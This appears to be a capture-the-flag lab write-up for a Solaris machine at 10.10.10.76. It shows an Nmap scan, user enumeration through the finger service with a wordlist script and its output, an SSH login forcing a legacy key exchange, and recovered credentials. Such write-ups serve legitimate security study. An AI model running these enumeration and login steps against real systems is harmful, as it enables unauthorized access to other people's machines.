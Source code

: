 #  Nmap
* OS: Solaris

Scan of all ports
```bash
PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
54186/tcp open  unknown
54535/tcp open  rpcbind
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

```



# Finger user enum 
[Finger User Enumerator](https://github.com/pentestmonkey/finger-user-enum)
```bash
./finger-user-enum.pl -U /opt/SecLists/Usernames/Names/names.txt -t 10.10.10.76 | less -S

```

```bash

######## Scan started at Mon Nov  8 00:57:45 2021 #########
access@10.10.10.76: access No Access User 
admin@10.10.10.76: Login       Name                           
anne marie@10.10.10.76: Login       Name              
bin@10.10.10.76: bin             ???                    
dee dee@10.10.10.76: Login       Name               
jo ann@10.10.10.76: Login       Name              
la verne@10.10.10.76: Login       Name        
line@10.10.10.76: Login       Name         
message@10.10.10.76: Login       Name            
miof mela@10.10.10.76: Login       Name        
root@10.10.10.76: root     Super-User     
sunny@10.10.10.76: sunny  
sys@10.10.10.76: sys 
zsa zsa@10.10.10.76: Login
```

This solaris machine has a old protocol ssh
```bash
ssh -okexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
```
creds: sunny:sunday
